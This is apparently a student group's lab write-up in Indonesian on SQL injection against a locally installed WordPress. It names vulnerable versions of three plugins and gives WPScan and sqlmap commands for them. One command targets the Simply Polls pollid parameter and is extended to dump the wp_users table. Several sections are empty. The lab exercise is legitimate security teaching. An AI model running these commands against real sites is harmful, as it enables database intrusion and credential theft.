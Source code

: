 # Tugas 2 - SQL Injection

#### Anggota Kelompok
- Tionia Rizkika (5114100053)
- Destiana Nurliasari (5114100148)
- Afifah Asmar Sari (5114100154)

- - - -

## Pendahuluan

## Dasar Teori

### OS yang Digunakan

#### Ubuntu Desktop
Ubuntu merupakan salah satu distribusi Linux yang berbasiskan Debian dan didistribusikan sebagai software bebas. Ubuntu Desktop ditujukan untuk user yang memakai Ubuntu sebagai end user. Pada Ubuntu Desktop telahterinstall beberapa aplikasi, diantaranya: LibreOffice, Mozilla Firefox, dan Mozilla Thunderbird. Ubuntu Desktop mengompile paket menggunakan fitur gcc seperti PIE dan proteksi Buffer Overflow untuk memproteksi software.

### Wordpress Plugin yang Digunakan

#### 1. VideoPlayer 1.5.16
Merupakan Plugin yang digunakan untuk menambahkan video pada Wordpress website. Pada plugin ini terdapat fitur untuk membuat playlist video, mengatur layout dan tampilan dari player dan terintegrasi dengan beberapa media sosial (Facebook, Google+ dan Twitter). Plugin ini dapat diunduh pada https://wordpress.org/plugins/player/

#### 2. LeagueManager 3.9.1.1
Merupakan plugin yang digunakan untuk mengatur dan menampilkan hasil dari pertandingan olahraga pada Wordpress website. Plugin ini dapat diunduh pada https://wordpress.org/plugins/leaguemanager/

#### 3. Simply Polls 1.4.1
Merupakan plugin yang digunakan untuk membuat poll pada Wordpress website. Poll yang dibuat dapat ditampilkan pada sidebar, post, maupun pages dari website. Plugin ini dapat diunduh pada https://wordpress.org/plugins/simply-polls/

### Tools yang Digunakan

#### 1. WPScan
Merupakan tools untuk melihat celah keamanan dari seluruh plugin dan theme yang digunakan pada Wordpress website. Tools ini dibuat menggunakan bahasa ruby.

#### 2. sqlmap
Merupakan tools opensource yang mendeteksi dan melakukan exploit pada bug SQL injection secara otomatis. dengan melakukan serangan SQL injection seorang attacker dapat mengambil alih serta memanipulasi sebuah database di dalam sebuah server.

## Instalasi

### Langkah Instalasi Wordpress
- Download Wordpress dari alamat: <pre>https://wordpress.org/download/</pre>
- Extract hasil file hasil dari download pada directori home, bila menggunakan OS Windows dan XAMPP maka directori default ada pada: <pre>C:\xampp\htdocs\ </pre>
- (Opsional) Rename folder hasil extract bila diperlukan.
- Buka file **'wp-config-sample.php'** menggunakan text-editor, ubah pengaturan database sesuai dengan kehendak:
![atur database](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wp-configPNG.PNG)
- Untuk mengubah url, tambahkan: <pre>
define('WP_HOME',    'http://alamatip/nama_folder');
define('WP_SITEURL', 'http://alamatip/nama_folder');
</pre>

- Simpan dan ubah nama menjadi **'wp-config.php'**.
- Pada browser buka url yang telah di inputkan sebelumnya pada **'wp-config.php'**, seperti: <pre>
http://192.168.100.19/wordpress/ -> (http://alamatip/nama_folder)
</pre>

- Pilih bahasa instalasi:

![pilih bahasa](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/step1.PNG)

- Input data user dan web:

![data user](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/step2.PNG)

- Instalasi wordpress telah selesai, untuk menggunakan mengatur wordpress login dengan mengklik button 'Login' atau pada alamat:<pre>http://alamatip/nama_folder/wp-login/ </pre>

![instalasi](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/step3.PNG)

### Langkah Instalasi Wordpress Plugin

## Uji Coba

### WPScan

- Buka terminal pada folder dimana wpscan berada, jalankan perintah:<pre>
ruby wpscan.rb --url alamat_site  --enumerate vp
</pre>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameter  `vp`  pada  `--enumerate`  untuk memunculkan hasil plugin yang vulnerable.

- Hasil dari WPScan:

![hasil 1](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscanrun1.png)
![hasil 2](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscanresult1.png)
![hasil 3](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%202.png)
![hasil 4](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%203.png)
![hasil 5](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%204.png)
![hasil 6](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%205.png)
![hasil 7](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%206.png)
![hasil 8](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%207.png)

### sqlmap

#### Plugin - Simply Poll 1.4.1
- Buka terminal pada folder dimana sqlmap berada, jalankan perintah:<pre>
python sqlmap -u "http://alamat_site/wp-admin/admin-ajax.php"  --data="action=spAjaxResult&&pollid=iddaripoll" --dbms=mysql --level=5 --risk=3
</pre>

![simplypol 1](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll1.png)
![simplypol 2](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll2.png)
![simplypol 3](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll3.png)

- Dari hasil sebelumnya telah didapatkan parameter yang vurnable, untuk mendapatkan list table yang terdapat di databasa sasaran maka tambahkan `-p pollid --tables` pada perintah dan jalankan. Hasil:

![simplypol 4](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll4.png)
![simplypol 5](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll5.png)
![simplypol 6](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll6.png)
![simplypol 7](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll7.png)
![simplypol 8](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll8.png)

- Dari hasil sebelumnya didapatkan list database dan table yang ada pada server. Untuk mendapatkan isi tabel wp_users dari database wordpress, maka tambahkan `-D wordpress -T wp_users` pada perintah dan jalankan. Hasil:

![simplypol 9](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll9.png)
![simplypol 10](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll10.png)

#### Plugin - League Manager 3.9.11
- Buka terminal pada folder dimana sqlmap berada, jalankan perintah:<pre>
python sqlmap.py --url "http://alamat_site?match=1" --level 5 --risk 3 --dbms mysql --tables
</pre>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Hasil:
- atau::<pre>
python sqlmap.py --url "http://alamat_post_mengandung_plugin?league_id=1&season=Winter" --level 5 --risk 3 --dbms mysql --tables
</pre>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Hasil:

## Kesimpulan dan Saran

### Kesimpulan

### Saran


